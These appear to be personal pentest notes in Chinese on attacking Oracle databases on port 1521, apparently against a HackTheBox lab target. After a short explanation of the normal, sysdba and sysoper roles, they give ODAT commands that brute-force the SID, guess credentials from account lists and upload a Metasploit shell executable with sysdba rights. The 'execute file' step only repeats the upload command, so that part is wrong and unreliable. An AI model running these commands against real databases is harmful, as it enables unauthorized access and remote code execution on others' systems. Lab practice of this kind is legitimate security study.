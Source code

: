 # oracle

1521端口

1521端口

https://loong716.top/posts/Oracle_Database_Security/

normal 、sysdba、 sysoper有什么区别

normal是普通用户（system用户只能用normal身份登陆）

sysdba不是权限，sysdba拥有最高的系统权限，当用户以SYSDBA身份登陆数据库时，登陆用户都会变成sys。

sysoper身份主要用来启动、关闭数据库，sysoper登陆后用户是public



![请添加图片描述](oracle.assets/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAb3JlMA==,size_20,color_FFFFFF,t_70,g_se,x_16.jpeg)

利用工具：ODAT(Oracle Database Attacking Tool)

用docker在本地安装了ODAT。

爆破SID：

```shell
python odat.py sidguesser -s 10.10.10.82 -p 1521
```

爆破用户名密码：

```shell
python odat.py passwordguesser -s 10.10.10.82 -d XE --accounts-file accounts/accounts.txt
```

accounts目录下还有别的txt。

传马：

```shell
python odat.py utlfile -s 10.10.10.82 -d XE -U scott -P tiger --putFile 'c:\\Windows\\Temp' msfshell.exe  /root/htb/msfshell.exe --sysdba
```

`--sysdba`可以以sysdba的身份操控

执行文件：

```shell
python odat.py utlfile -s 10.10.10.82 -d XE -U scott -P tiger --putFile 'c:\\Windows\\Temp' msfshell.exe  /root/htb/msfshell.exe --sysdba
```

